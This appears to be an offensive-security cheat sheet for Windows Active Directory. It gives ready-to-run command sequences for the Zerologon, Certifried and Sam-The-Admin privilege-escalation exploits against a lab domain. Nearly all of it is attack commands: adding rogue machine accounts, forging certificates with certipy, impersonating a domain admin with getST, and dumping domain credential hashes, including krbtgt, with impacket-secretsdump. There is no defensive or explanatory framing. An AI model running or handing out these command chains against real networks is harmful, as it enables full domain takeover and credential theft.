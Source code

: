 # Windows

## CVE-2020-1472 : Zero Logon
PoC based on this link : https://github.com/dirkjanm/CVE-2020-1472
```bash
python3 cve-2020-1472-exploit.py HOSTNAME IP
impacket-secretsdump 'HOSTNAME$@IP'
```

## CVE-2022-26923 : Certifried
More info in : https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html
```bash
python3 bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'
python3 bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 setAttribute 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName '["CRASHDC.crashlab.local"]'
python3 bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName                  
certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12 OR openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes | python3 bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 setRbcd 'CVE$' 'CRASHDC$'
getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
cp emacron.ccache /tmp/
export KRB5CCNAME=/tmp/emacron.ccache
impacket-secretsdump -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
```

## CVE-2021-42278 & CVE-2021-42287 : Sam-The-Admin
Impersonate DA from standard domain user. Based on https://github.com/WazeHell/sam-the-admin
```bash
python3 sam_the_admin.py -domain-netbios NETBIOS_NAME -dc-ip IP_DC -shell 'DOMAIN/USERNAME:PASSWORD'
```
